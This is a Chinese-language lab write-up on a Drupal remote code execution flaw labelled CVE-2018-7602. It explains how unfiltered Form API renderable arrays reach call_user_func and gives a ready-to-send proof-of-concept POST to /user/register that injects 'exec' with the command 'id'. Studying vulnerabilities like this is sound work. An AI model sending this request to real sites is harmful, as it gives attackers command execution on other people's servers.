 ![image-20200908132031293](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908132031293.png)





### CVE-2018-7602 Drupal 远程代码执行漏洞

##### 漏洞简介及影响范围

该漏洞的产生的根本原因在于Drupal对表单的渲染上。

Drupal为了在表单渲染过程中能够动态修改数据，从6.x版本开始便引入了”Drupal Form API”的概念。
相关文档如下：https://api.drupal.org/api/drupal/elements/8.6.x

这些”可渲染的数组(Renderable arrays)”就是引发此次漏洞的”元凶”，它由一个key-value结构存储，Drupal在渲染这些”数组”时，将其中的数据未经安全过滤传入到`doRender`函数中。该方法取出”可渲染数组”`#lazy_builder`的值，未经过滤直接传入`call_user_func_array`函数，导致恶意代码被执行。

影响版本 6/7/8

##### 利用过程

- 黑客在”可渲染数组”中插入构造恶意代码，如: `mail[#post_render][]=恶意代码`
- 通过POST方法将含有恶意代码的”可渲染数组”提交到drupal系统中。
- 页面渲染流程中，”可渲染数组”中携带的恶意代码依次经过`buildform`->`uploadAjaxCallback`->`renderRoot`->`doRender`方法。
- 最终`doRender`方法将”可渲染数组”中的恶意代码取出，传入`call_user_func`函数，导致恶意代码被执行，成功触发漏洞，网站沦陷。

环境搭建方法同CVE-2019-6341 

发送如下poc

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

![image-20200908141227006](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908141227006.png)





